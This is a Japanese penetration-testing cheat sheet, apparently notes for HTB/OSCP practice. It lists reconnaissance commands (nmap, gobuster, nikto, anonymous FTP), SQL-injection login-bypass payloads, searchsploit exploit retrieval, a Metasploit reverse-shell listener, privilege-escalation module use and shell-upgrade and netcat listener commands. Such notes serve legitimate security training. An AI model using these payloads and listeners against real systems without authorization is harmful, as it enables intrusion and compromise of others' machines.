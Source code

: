 ## 偵察

### 通信相手のOSを知る
```bash
ping -c 1 <IP>
````

- ttlの時間で判別する
    - `ttl=64` → Linux OS/Mac OS
    - `ttl=128` → Windows OS
    - `ttl=255` → UNIX OS/ネットワーク機器

---

### nmapポートスキャン

```bash
sudo nmap -vvv -sCV -T4 -p0-65535 -Pn <IP>
```


---

### Webサーバ上のディレクトリ列挙

- 特定のページにアクセスできる隠しファイルやフォルダを見つけるのに最適

```bash
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt
```

- **ワードファイル候補**

```
/usr/share/wordlists/dirb/big.txt
```

---

### サブドメインの列挙

```bash
gobuster dns -d <IP> -w /usr/share/wordlists/subdomains.txt
```

---

### VHOST（仮想ホスト）の列挙

```bash
gobuster vhost -u http://<IP> -w /usr/share/wordlists/vhosts.txt
```

---

### サイト脆弱性スキャン

```bash
nikto -h http://<IP>
```

### FTP匿名ログイン

```bash
ftp <IP>
```

- ユーザー名: `anonymous` または `ftp`
- パスワード: 空欄でEnter

---

## Webサイトからの情報取得
### ログインフォームがあったら
- webappの名前とバージョンが分かれば、デフォルトのユーザーネーム、パスワードを検索して、試す
- SQLインジェクション
	- ' OR 1=1;--
		- select * from users where username='' and password='' OR 1=1;
	- admin' OR 1=1;--
		- select * from users where username='admin' and password='' OR 1=1;
	- 詳しいことは
		- https://scrapbox.io/tadanomemo777/SQL%E3%82%A4%E3%83%B3%E3%82%B8%E3%82%A7%E3%82%AF%E3%82%B7%E3%83%A7%E3%83%B3

### htmlソースでの検索
- コメントの検索
	- 内部IPアドレスやAPIキー、パスワードが見つかることもある
	- 検索ボックスに「```<!--```」を入れて検索
- CMSについての検索
	- CMSが使われていればCMSの脆弱性をつくこともできる
	- 検索ボックスに
		- wordpress
		- drupal
		- joomla
	- を入れて検索
### Burp Suite
- TargetタブのStitemapからも概要がわかる

### `curl`での確認

`md`ファイルなどはブラウザよりも`curl`での確認が見やすい。

```bash
curl -k <URL>
```

- `-k`：エラーを無視するオプション

### Webサイトのヘッダー情報の取得
CMS、JavaScriptライブラリ、ウェブサーバ、バージョン番号、ウェブフレームワークの取得

```bash
sudo whatweb http://<IP>
```


---

## 脆弱性の探索

### XSS (Cross Site Script)

HTBやOSCPではXSSの脆弱性を使うことはないため、真っ先に除外する。  
XSSは他のユーザーが引っかかる必要があるが、HTBやOSCPには対象が存在しない。

### Searchsploit
#### 複数の脆弱性を見つけたとき
 .txtよりもコードが書かれた脆弱性を選ぶべき
 迷った時は数字が後の方の方を選ぶべし
  より最新で、上手くいく可能性が高いから

#### PoCをダウンロードしたい時
 searchsploit -m <脆弱性の番号>
  - -m : ミラー

#### 使い方だけ出力したい
	 | grep -i usage <PoC file>


---

## Exploit

### リバースシェルの作成
https://www.revshells.com/

### 攻撃者側のサーバー内のファイルをやられ側に移す

 ```bash
 python -m http.server 80
 ```

  攻撃者サーバーを一時的にwebサーバーとする
  
### Metasploit 

#### リバースシェルリスナーの設置


```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
set ExitOnSession false
exploit -j -z
```




---

#### **セッション管理**

#### **セッション一覧表示**

```bash
sessions -l
```

#### **セッション接続・セッションに戻る**

```bash
sessions -i <セッション番号>
```

####  **セッション全終了**
se
```bash
sessions -K
```


---

#### **特権昇格の発見とエクスプロイト**

##### **local_exploit_suggester を使う**

Mesterpreterでユーザー権限でセッションが確立している時、**`local_exploit_suggester`** モジュールを使用して、ターゲットシステムに適した特権昇格エクスプロイトを提案させることができます。

```bash
use post/multi/recon/local_exploit_suggester
```

---
## Exploit後
### シェルアップデート
- linux
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
- windows
- 方法 : rlwrap は、コマンドラインの入力履歴や補完機能を提供するラッパープログラムです。これを nc と組み合わせることで、シェルの機能を強化できます。

```bash
rlwrap nc -lvnp <ポート番号>  # リスナー側 (攻撃者マシン)
```






